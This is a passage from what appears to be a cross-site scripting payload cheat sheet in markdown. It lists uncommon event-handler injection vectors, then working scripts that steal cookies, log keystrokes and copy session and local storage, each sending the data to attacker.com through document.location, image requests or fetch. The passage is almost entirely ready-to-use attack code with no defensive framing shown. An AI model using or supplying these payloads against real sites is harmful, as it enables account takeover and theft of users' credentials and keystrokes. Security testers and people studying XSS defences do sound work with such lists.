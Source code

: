 ### Alternative Event Handlers
```html
<!-- Less common events -->
<details ontoggle=alert('XSS') open>
<marquee onstart=alert('XSS')>
<isindex onmouseover="alert('XSS')" >
<listing onmouseover="alert('XSS')" >
<xmp onmouseover="alert('XSS')" >
<plaintext onmouseover="alert('XSS')" >
```

## 🎯 Specialized XSS Payloads

### Cookie Stealing
```javascript
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>

<script>
new Image().src='http://attacker.com/steal.php?cookie='+document.cookie;
</script>

<script>
fetch('http://attacker.com/steal.php', {
    method: 'POST',
    body: 'cookie=' + document.cookie
});
</script>
```

### Keylogger
```javascript
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/keylog.php', {
        method: 'POST',
        body: 'key=' + String.fromCharCode(e.which)
    });
}
</script>
```

### Session Hijacking
```javascript
<script>
// Steal session storage
var session = JSON.stringify(sessionStorage);
fetch('http://attacker.com/session.php', {
    method: 'POST',
    body: 'session=' + session
});

// Steal local storage
var local = JSON.stringify(localStorage);
fetch('http://attacker.com/local.php', {
    method: 'POST',
    body: 'local=' + local
});
</script>
```
